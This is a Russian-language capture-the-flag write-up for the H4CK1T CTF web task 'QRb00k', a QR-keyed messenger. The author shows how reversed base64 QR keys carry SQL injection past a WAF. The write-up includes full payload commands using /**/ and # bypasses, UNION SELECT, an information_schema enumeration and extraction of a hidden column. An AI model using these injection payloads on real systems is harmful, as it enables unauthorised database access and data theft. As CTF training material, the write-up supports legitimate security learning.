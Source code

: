 ## H4CK1T CTF :: QRb00k :: Web (400)

Условие задачи следующее:

`RU: В России было разработан защищенный мессенджер, для общения используется система с qr ключами, что позволяет читать чужие сообщения только владельцам данного ключа. Но как так ли это на самом деле ? Вам и предстоит это выяснить...`

![task](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/task.png)

Задание из категории Web, соответсвенно необходимо проанализировать данный сайт, найти и заэксплуатировать уязвимость чтобы вытащить флаг.

![1](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/1.jpg)

Ну соответсвенно для начала необходимо понять что из себя представляет данный мессенджер, попробуем создать сообщение от пользователя `blablabla`.

![2](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/2.jpg)

В результате мы получаем QR Code с помощью которого можно будет прочитать наше оставленное сообщение.

![3](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/3.jpg)

Попробуем теперь его прочитать с помощью полученного ключа

![4](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/4.jpg)

Как видно ниже в результате мы видим оставленно ранее сообщение `hacktheplanet`, все работает как задумано, осталось найти уязвимость чтобы вытащить заветный флаг.

![5](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/5.jpg)

Итак, первое что приходит на ум это `SQL Injection` :), давайте попробуем повтыкать апострофы и кавычки при создании сообщения ;)

![6](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/6.jpg)

Но не тут то было, сработал `WAF`, ' и " не работают, детектит зараза :)

![7](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/7.jpg)

Перепробовал еще несколько вариантов в том числе зааплоадить php скрипт, но и это тоже задетектил. OK, тогда возвращаемся к нашему QR коду, попробуем разобраться какой именно ключ он генерит... Прочитаем содержимое QR кода

![8](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/8.jpg)

Получили текст `hxmYhxmYhxmY` который очень похож на base64 но при декодинге получается белиберда... но повторяющийся 3 раза паттерн как бы намекает на наше `blablabla` :) попробуем заенкодить его в base64

```shell
bash-3.2$ echo -n "blablabla" | base64
YmxhYmxhYmxh
```
Ок, это наш QR код но в обратном порядке :)
Отлично, теперь мы можем сами сгенерить любой QR код который захотим, пример команды: `echo -n "blablabla" | base64 | rev | qrencode -o payload.png -t PNG`

Теперь давайте попробуем повтыкать кавычки туда :)
`echo -n "blablabla'" | base64 | rev | qrencode -o payload.png -t PNG`

![9](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/9.jpg)

Ураааа, в этот раз WAF этого не заметил, но он по прежнему ругается еще и на пробел и --, но это мы попробуем обойти с помощью `/**/` и `#`. Следующим шагом нам надо убедиться что это реально `SQL Injection` и все работает так как мы думаем :) Попробуем починить запрос чтобы он выдал все сообщения `echo -n "blablabla' or '1'='1" | base64 | rev | qrencode -o payload.png -t PNG`

![10](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/10.jpg)

Ха, `nothig interesting` это не наш текст, но уже хороший знак ) возможно наш будет в следующей строке, давайте проверим `echo -n "blablabla'/**/or/**/'1'='1'/**/LIMIT/**/1,1/**/#" | base64 | rev | qrencode -o payload.png -t PNG`

![11](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/11.jpg)

Бинго! SQLi работает, теперь можем попробывать вывести информацию через UNION, к примеру версию СУБД `echo -n "blablabla'/**/UNION/**/SELECT/**/@@version/**/LIMIT/**/1,1/**/#" | base64 | rev | qrencode -o payload.png -t PNG`

![12](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/12.jpg)

Супер, все работает. Далее я попытался найти другие таблицы в текущей БД, ничего не было кроме текущей `messages`, чтож давайте поищем все столбцы в этой таблице... `echo -n "blablabla'/**/UNION/**/SELECT/**/column_name/**/FROM/**/information_schema.columns/**/WHERE/**/table_name/**/=/**/'messages'/**/LIMIT/**/4,1/**/#" | base64 | rev | qrencode -o payload.png -t PNG`

![13](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/13.jpg)

Кажется мы нашли то что искали... `secret_field` я думаю стоит там поискать наш флаг ;) `echo -n "blablabla'/**/UNION/**/SELECT/**/secret_field/**/FROM/**/messages/**/LIMIT/**/1,1/**/#" | base64 | rev | qrencode -o payload.png -t PNG`

![14](https://github.com/b1n4ry4rms/CTFs/blob/master/2016/ctf.com.ua/QRb00k/imgs/14.jpg)

\o/ Ура! Долгожданный флаг в кармане, и +400 очков команде b1n4ry4rms

**Автор: fuzzyf10w**
